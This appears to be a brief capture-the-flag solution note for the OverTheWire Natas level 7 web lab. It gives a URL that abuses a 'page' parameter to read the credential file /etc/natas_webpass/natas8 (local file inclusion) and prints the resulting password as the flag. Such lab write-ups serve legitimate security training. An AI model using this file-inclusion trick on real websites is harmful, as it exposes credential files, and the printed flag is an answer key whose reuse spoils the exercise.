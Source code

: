 # Trick

/etc/natas_webpass/natas8

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

# Flag

```
a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB
```
